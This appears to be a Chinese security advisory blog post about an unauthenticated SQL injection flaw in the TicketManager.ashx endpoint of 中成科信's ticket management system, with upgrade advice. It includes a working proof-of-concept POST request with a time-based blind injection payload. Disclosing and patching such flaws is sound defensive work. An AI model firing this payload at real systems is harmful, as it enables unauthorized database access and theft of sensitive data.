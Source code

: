 #  漏洞预警 | 中成科信票务管理系统SQL注入漏洞   
浅安  浅安安全   2024-08-17 08:00  
  
**0x00 漏洞编号**  
- # 暂无  
  
**0x01 危险等级**  
- 高危  
  
**0x02 漏洞概述**  
  
中成科信票务管理系统是专注于演出剧院、体育场馆、旅游景区、游乐园、场地活动的票务管理系统,并为特殊客户量身定制票务应用解决方案，可根据用户的要求采用不同的技术载体实现门票的防伪。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/7stTqD182SXtAPtWzrWO4iaJicvAtMDHxcnvwMpR6zIO08N92PpQ2SzeDc9bgVYfU759m2SJMtnbxvQorzCt5kww/640?wx_fmt=png&from=appmsg "")  
  
**0x03 漏洞详情**  
###   
###   
  
**漏洞类型：**  
SQL漏洞  
  
**影响：**  
获取敏感信息  
  
**简述：**  
中成科信票务管理系统的TicketManager.ashx接口存在SQL注入漏洞复现，未经身份验证的恶意攻击者利用SQL注入漏洞获取数据库中的信息。  
###   
  
**0x04 影响版本**  
- 中成科信票务管理系统  
  
**0x05****POC**  
```
POST /SystemManager/Api/TicketManager.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/x-www-form-urlencoded
Connection: close
 
Method=GetReServeOrder&solutionId=1' WAITFOR DELAY '0:0:5'--
```  
  
**仅供安全研究与学习之用，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布****者**  
**不承担任何法律及连带责任。**  
  
**0x06****修复建议**  
  
**目前官方已发布漏洞修复版本，建议用户升级到安全版本****：**  
  
http://www.zckx.net/  
  
  
  
